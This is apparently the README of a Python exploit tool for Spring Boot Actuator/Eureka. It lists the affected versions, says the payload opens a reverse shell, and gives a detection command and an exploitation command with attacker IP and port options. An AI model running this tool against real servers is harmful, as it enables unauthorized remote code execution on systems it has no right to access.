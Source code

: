 ## Spring Boot eureka exp
```
 ___ _ __  _ __(_)_ __   __ _        _____  ___ __
/ __| '_ \| '__| | '_ \ / _` |_____ / _ \ \/ / '_ \
\__ \ |_) | |  | | | | | (_| |_____|  __/>  <| |_) |
|___/ .__/|_|  |_|_| |_|\__, |      \___/_/\_\ .__/
    |_|                 |___/                |_|
-------Spring Boot 2.x 无法利用成功---------
-------Spring Boot 1.5.x 在使用 Dalston 版本时可利用成功，使用 Edgware 无法成功--------
-------Spring Boot <= 1.4 可利用成功---------------
                          --by tea0 
``` 
## update 
目前 版本还存在问题，但是可利用，利用payload是采用反弹shell

代码写的有点垃圾，大佬勿喷！新手上路，后续代码会优化

## help
检测：
```angular2
python spring_boot_exp.py -u http://127.0.0.1:8090
```

利用：
```angular2
 python spring_boot_exp.py -u http://127.0.0.1:8090 -exp xx.x.xx.x -p 1000
```

## 参考资料
Spring Boot Actuator未授权访问【XXE、RCE】单/多目标检测
* https://github.com/rabbitmask/SB-Actuator

小米安全

* https://www.anquanke.com/post/id/195929
